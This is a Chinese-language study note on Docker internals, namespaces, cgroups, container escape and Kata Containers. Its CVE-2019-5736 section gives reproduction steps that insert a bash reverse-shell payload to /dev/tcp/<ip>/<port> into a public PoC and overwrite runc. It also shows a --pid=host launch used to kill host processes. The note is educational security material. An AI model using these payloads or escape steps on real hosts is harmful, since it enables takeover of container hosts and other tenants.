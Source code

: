 # 容器逃逸与安全容器
## Docker运行流程
Docker由Docker-Client, dockerd, containerd, docker-shim, runc组成。

![](images/docker.png)

- docker-client：docker命令行，负责接收用户命令；
- dockerd: docker守护进程，监听请求并管理网络配置和存储卷资源；
- containerd: dockerd实际调用的还是containerd的api接口（grpc方式实现），containerd是dockerd和runc之间的一个中间交流组件;
- docker-shim: docker-shim是一个真实运行的容器的真实垫片载体，每启动一个容器都会起一个新的docker-shim的一个进程，通过指定容器id、buundle目录、运行时二进制来调用runc的api创建一个容器；
- runc:命令行工具端，他根据oci（开放容器组织）的标准来创建和运行容器；

**流程**：Docker CLI将run命令及参数通过REST API传给dockerd，dockerd根据请求拉取并验证镜像，之后将控制权交给containerd去创建容器，之后containerd设置容器环境（文件系统，网络）。然后，containerd会使用shim进程将容器的运行委托给runc创建并启动容器。容器运行时，containerd将监视容器状态并相应地管理生命周期。

## Namespace和Cgroup
### Namespace
Namespace将内核的全局资源进行封装，使每个Namespace有一份独立资源，不同进程在各自的Namespace内对同一种资源的使用不会相互干扰。Docker 通过Linux namespace实现6项资源隔离，包括主机名、用户权限、文件系统、网络、进程号、进程间通讯。
| Namespace 类型 | 隔离的资源                                  | 作用描述                                                                 |
|---------------|--------------------------------------------|--------------------------------------------------------------------------|
| **IPC**       | System V IPC 和 POSIX 消息队列              | 隔离进程间通信机制（如信号量、共享内存、消息队列），防止跨容器干扰。               |
| **Network**   | 网络设备、协议栈、端口、路由表等             | 每个容器拥有独立的网络接口、IP 地址、防火墙规则等，实现网络隔离。                 |
| **Mount**     | 文件系统挂载点                              | 隔离文件系统挂载信息，使容器无法访问宿主机或其他容器的挂载点（如 `/proc`、`/sys`）。 |
| **PID**       | 进程 ID (PID)                              | 容器内只能看到自己的进程树，无法查看或操作宿主机或其他容器的进程。                  |
| **UTS**       | 主机名 (Hostname) 和域名 (NIS Domain Name) | 允许容器独立设置主机名，不影响宿主机或其他容器。                                |
| **User**      | 用户 ID (UID) 和组 ID (GID)                | 隔离用户权限，容器内 root 用户可被映射到宿主机非 root 用户（增强安全性）。  

部分启动参数授予容器权限较大的权限，从而打破了资源隔离的界限。

| 启动参数              | 影响的 Namespace       | 授予的权限或行为                          |
|-----------------------|------------------------|-------------------------------------------|
| `--cap-add=SYS_ADMIN` | 无直接绕过             | 允许容器执行 `mount` 等特权操作，可能导致文件系统挂载逃逸 |
| `--net=host`          | Network Namespace      | 容器直接使用宿主机的网络栈（共享网络接口、端口等）     |
| `--pid=host`          | PID Namespace          | 容器可看到宿主机上的所有进程                       |
| `--ipc=host`          | IPC Namespace          | 容器与宿主机共享进程间通信资源（如信号量、共享内存等）  |

示例：使用`docker run –it –pid=host --cap-add=CAP_KILL ubuntu /bin/bash`可以实现在容器中杀死宿主机的进程。

### Cgroup
Cgroup是内核提供的一种资源隔离的机制，可以实现对进程所使用的cpu、内存物理资源、及网络带宽等进行限制。还可以通过分配的CPU时间片数量及磁盘IO宽带大小控制任务运行的优先级。系统中的进程（任务）创建子进程（任务）时，该子任务自动成为其父进程所在cgroup的成员。在docker中，cgroup用来确保一个容器只能使用被分配的资源量，避免某个容器因为过度消耗资源而影响到其他容器或主机系统的稳定性。

![](images/cgroup.png)

图中task1分配到cgroup_2的内存资源，cgropu_3的cpu资源，其子进程task2和task3也最多只能使用cgroup_2的内存资源和cgropu_3的cpu资源。

在Docker中，默认情况下，没有对CPU和内存资源进行硬性限制，若要进行硬性限制，则在启动容器时需要，例如：
```
docker run -it --rm --memory=“512m” \
 --memory-swap=“1g” \
 --cpus=“1.5“ \ 
mycontainer
```

## 容器逃逸类型
容器逃逸指的是攻击者利用容器中的漏洞或配置错误，突破容器的隔离机制，从而访问宿主机或其他容器内的资源。
- （系统层）内核漏洞：指由于内核漏洞导致的容器逃逸问题，例如：如果宿主机的Linux内核存在安全漏洞，攻击者可能利用这些漏洞从容器内部执行恶意代码，从而获取宿主机上的权限；
- （服务层）软件设计不当：指由于运行时漏洞导致的容器逃逸问题，Docker是一个容器化平台，它包含了docker软件本身以及runc和containerd等核心组件，这些组件本身也可能存在漏洞，攻击者可以利用这些漏洞来进行容器逃逸。
- （用户层）特权模式与配置不当：指由于容器实例使用的危险配置、危险挂载导致的容器逃逸，例如：容器使用了不安全的卷挂载，或者容器以过高的权限运行，都可能被攻击者利用来实现容器逃逸；

### 服务层容器逃逸案例（CVE-2019-5736）
2019年2月11日，runC的维护团队报告了一个新发现的漏洞，SUSE Linux GmbH高级软件工程师Aleksa Sarai公布了影响Docker, containerd, Podman, CRI-O等默认运行时容器runc的严重漏洞CVE-2019-5736。漏洞会对IT运行环境带来威胁，漏洞利用会触发容器逃逸、影响整个容器主机的安全，最终导致运行在该主机上的其他容器被入侵。漏洞影响AWS, Google Cloud等主流云平台。
- 影响版本：docker version <= 18.09.2, runc <= 1.0-rc6
- 漏洞链接：https://github.com/Frichetten/CVE-2019-5736-PoC
- 复现方式：将Poc代码中main.go 文件中payload变量定义为`var payload="#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1"`(其中<ip>指攻击者机器的ip)，之后在受害者机器上编译执行main.go，然后在攻击者机器上开启nc监听，监听<port>端口，再次在受害者机器上进入或启动容器时，攻击者机器就可以拿到受害者机器的shell控制权；
- 漏洞原理：攻击者可以通过修改容器内部某个可执行文件的方式，获取到宿主机上 runc 可执行文件的文件句柄（file descriptor）。随后，攻击者可以利用该句柄对原始的 runc 文件进行覆盖操作，将其替换为一个受控的恶意文件；

POC代码解析：

1. `/bin/sh` -> `#!/proc/self/exe` 

    将shell变成指向当前进程可执行文件的链接，让host的runc进程执行自身

2. runc -> `#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1`

    将runc覆盖为反弹shell

3. 下次执行docker run/exec 时，就会使用runc二进制文件，执行攻击者的payload

## Kata Containers
Kata Containers项目最初由Hyper.sh的runV项目与Intel的Clear Container合并而来，并于2017年开源。它的核心思想是，为每一个容器运行一个独立虚拟机，从而避免其与宿主机共享内核。即使攻击者在容器内部成功利用了内核漏洞攻破内核，他依然被限制在虚拟机内部，无法逃逸到宿主机上。
![](images/kata.png)
和Docker一样，Kata Container1.0也包含containerd、containerd-shim，还额外包含的组件如下：
- kata-shim：kata容器的容器进程运行在虚拟机中，虚拟机和host之间是隔离的，container-shim无法监控到kata容器进程的生命状态，所以使用kata-shim进行中转；
- kata-runtime：负责调用底层虚拟化技术（如qemu）来启动虚拟机；
- kata-proxy：转发来自kata runtime的请求到VM的kata-agent；
- kata-agent：负责实际的容器生命周期管理和资源配置（创建新容器，调整资源配置）;

### Nydus镜像加速系统

传统的Docker镜像在分发和使用过程中会存在以下问题：
- 启动速度慢：由于需要下载并解压整个镜像层才能启动容器，导致容器启动时间长；
- 存储效率低下：某个文件在Upper层里被删除或修改，文件依然留在Lower层，它们仍然占用存储空间；
- 镜像与镜像之间存在重复数据：不同镜像文件不共享；

针对以上问题，Kata Containers 3.0提出了Nydus镜像加速系统，其核心思想为按需加载和共享重复块：
- 按需加载：采用"运行时按需获取"架构，容器启动时仅下载元数据（约30KB的bootstrap文件），当容器访问特定文件时，才从仓库下载对应的数据块（chunk）；
- 共享数据块：最小单位为数据块（chunk），可跨镜像共享基础层数据块。例如，若上传了一个Ubuntu镜像到远端仓库，之后想基于Ubuntu构建一个Python镜像和一个Nginx镜像，可以通过--base-bootstrap=bootstrap_xxx.json来引用远程Ubuntu镜像中的数据块chunks，之后进行新镜像的构建，在上传镜像时只上传新增的Chunks。

# 参考链接
https://www.docker.com/blog/containerd-vs-docker/
https://www.cnblogs.com/xiaozi/p/13423853.html
https://www.thebyte.com.cn/container/CRI-in-Kubernetes.html
https://www.lixueduan.com/posts/docker/03-container-core/
https://juejin.cn/post/7096115284875935781
https://www.infoq.cn/article/dgbkj0dwftxeusp64dk9
https://www.ctyun.cn/developer/article/531766025101381

